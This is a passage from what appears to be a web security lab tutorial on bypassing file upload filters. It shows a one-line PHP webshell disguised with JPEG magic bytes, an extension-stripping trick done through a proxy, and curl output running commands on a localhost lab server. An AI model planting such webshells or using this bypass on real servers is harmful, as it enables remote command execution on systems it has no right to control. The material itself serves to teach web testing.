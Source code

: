 Next, we can check if the file is now recognized as an image file instead of a PHP script.

```bash
# confirm the change
$ cat webshell.php
����<?php system($_GET['cmd']); ?>
# system recongizes as a JPEG file
$ file webshell.php
webshell.php: JPEG image data
$ file --mime-type webshell.php
webshell.php: image/jpeg
```

To upload the shell we must first bypass the client-side extension filter by adding an image extension to the file and then remove that extension via our proxy, so the server is able to execute it (Figure 7).

<figure><img src="../../.gitbook/assets/web_fileUpload_serverSide_3.png" alt=""><figcaption><p>Figure 7: Bypassing both the client-side and server-side filters. </p></figcaption></figure>

Finally, we can interact with the webshell either via the browser or using `curl`.

```bash
$ curl http://localhost/labs/uploads/webshell.php?cmd=id
����uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Blacklists/Whitelists

Sometimes a server-side filter can be based on a whitelist or a blacklist (Figure 8).
